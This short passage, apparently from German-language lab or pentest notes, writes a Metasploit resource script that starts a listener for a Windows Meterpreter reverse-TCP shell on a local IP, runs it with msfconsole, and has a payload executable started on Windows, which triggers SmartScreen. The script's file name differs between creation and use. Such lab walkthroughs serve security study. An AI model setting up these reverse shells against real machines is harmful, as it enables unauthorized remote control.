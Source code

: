 Mit einem msf Resource Script:

```sh
echo "use exploit/multi/handler\nset payload windows/meterpreter/reverse_tcp\nset lhost 192.168.178.81\nset lport 8080\nrun\n" > msf_macro_tcp_8080.rc
```

```bash
$ msfconsole -r msf_macro.rc
```

Dann `mp_tcp_rev_shell_8080.exe` unter Windows starten. Dabei schlägt SmartScreen an:

 <img src="fig/image-20210629115555741.png" alt="image-20210629115555741" style="zoom:33%;" />
